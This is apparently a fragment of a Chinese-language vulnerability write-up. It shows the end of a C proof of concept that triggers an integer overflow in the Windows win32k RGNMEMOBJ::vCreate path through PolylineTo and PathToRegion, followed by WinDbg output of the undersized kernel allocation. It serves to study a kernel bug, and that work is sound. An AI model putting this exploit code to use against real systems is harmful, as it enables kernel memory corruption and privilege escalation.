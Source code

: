 ```
 
    if (!hdc)
    {
        ShowError("GetDC", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
    if (!BeginPath(hdc))
    {
        ShowError("BeginPath", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
    for (i = dwMaxCount; i > 0; i -= min(dwMaxValue, i))
    {
        if (!PolylineTo(hdc, &pPoint[dwMaxCount - i], min(dwMaxValue, i)))
        {
            ShowError("PolylineTo", GetLastError());
            bRet = FALSE;
            goto exit;
        }
    }
 
    if (!EndPath(hdc))
    {
        ShowError("EndPath", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
    if (PathToRegion(hdc) == NULL)
    {
        ShowError("PathToRegion", GetLastError());
        bRet = FALSE;
        goto exit;
    }
 
exit:
    if (pPoint)
    {
        free(pPoint);
        pPoint = NULL;
    }
    return bRet;
}
```  
  
  
  
在申请内存的地址处下断点，编译运行POC，由WinDbg输出可以看到，在对申请的内存大小进行乘法运算之前，eax的值为0x6666667，将其与0x28进行相乘之后就会因为整型溢出导致eax为0x18，接着就申请0x18大小的内存空间，记录下此时申请到的内存为0xfe640ce8，并查看相邻内存块的数据。  
```
3: kd> g
Breakpoint 0 hit
win32k!RGNMEMOBJ::vCreate+0xb3:
83793fea 8d4101          lea     eax,[ecx+1]
2: kd> p
win32k!RGNMEMOBJ::vCreate+0xb6:
83793fed 6bc028          imul    eax,eax,28h
2: kd> r eax                                                // 要进行计算的线条数
eax=06666667
2: kd> p
```